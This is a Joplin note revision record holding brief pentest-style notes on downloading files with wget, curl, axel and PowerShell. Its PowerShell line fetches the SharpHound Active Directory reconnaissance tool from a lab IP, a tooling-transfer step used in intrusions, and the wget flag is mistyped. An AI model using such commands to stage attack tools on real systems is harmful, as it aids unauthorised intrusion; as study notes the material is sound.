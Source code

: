 id: 029b2a4ef83c4b6c84b8dc95f2cb9ba7
parent_id: 
item_type: 1
item_id: 7fcb789b143c4fdead546ced081886f7
item_updated_time: 1650557006897
title_diff: "[{\"diffs\":[[1,\"Downloading Files\\\r\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":18}]"
body_diff: "[{\"diffs\":[[1,\"Wget\\\n\\\n> wget -0 &lt;url&gt; &lt;filename&gt;\\\n\\\nCurl\\\n\\\n> curl -o &lt;filename&gt; &lt;url&gt;\\\n\\\nAxel\\\n\\\n> axel -a -n 20 -o &lt;filename&gt; &lt;url&gt;\\\n\\\nPowershell\\\n\\\n> powershell -c (New-Object Net.WebClient).DownloadFile('http://192.168.119.222:8001/SharpHound.exe', 'SharpHound.exe')\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":278}]"
metadata_diff: {"new":{"id":"7fcb789b143c4fdead546ced081886f7","parent_id":"819fca2060d64809bbdac4fc93fdd86a","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-21T16:03:31.443Z
created_time: 2022-04-21T16:03:31.443Z
type_: 13